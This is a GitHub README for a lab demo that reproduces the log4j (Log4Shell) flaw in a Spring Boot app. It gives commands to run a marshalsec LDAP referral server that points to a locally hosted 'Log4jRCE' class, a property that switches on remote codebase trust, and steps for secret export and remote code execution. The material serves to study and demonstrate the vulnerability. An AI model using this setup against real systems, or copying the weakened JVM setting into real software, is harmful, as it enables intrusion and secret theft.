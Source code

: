 # log4j-exploit-demo

This code base has the code for reproducing the log4j vulnerability in the spring boot app.

## Steps to Reproduce the Log4j vulnerability

- Clone this repo in to your local machine

```
git@github.com:dilipsundarraj1/log4j-exploit-demo.git
```

- Import the projects in to Intellij

## Vulnerability #1 : Exporting Secrets to Hacker Machine

### Start the greeting-service

- This will run the app in port 8080. Make sure you have this port available

### Start the LDAP Server(marshalsec)

- Import the project in to Intellij

- Build the project using Maven

  - Build From Terminal, use the below command
  ```
  mvn clean package -DskipTests
  ```
  - Build in Intellij, use the below command
  ```
  clean package -DskipTests
  ```

- Run the below command to start up the ldap server

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Log4jRCE"
```

- This should start up the LDAP server in port 1389


##  Vulnerability #2 :  Remote Code Execution

### Make changes greeting-service

- Add the below System property in the **GreetingsServiceApplication** class
  - This is to enable the LDAP call invocation in the JVM

```
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true")
```

### Start the Remote Server hosting the Factory class

- Import the hacker-remote-server module in intellj

- Start the simple http server using the below command

```
python3 -m http.server
```

## Reference Repos

- [hacker-remote-server](https://github.com/xiajun325/apache-log4j-rce-poc)
  - This repo hosts the Compiled Java code which is the actual code that gets executed in the Target JVM
- [marshalsec](https://github.com/mbechler/marshalsec)
  - This repo holds the source code for spinning up an LDAP Server in our local
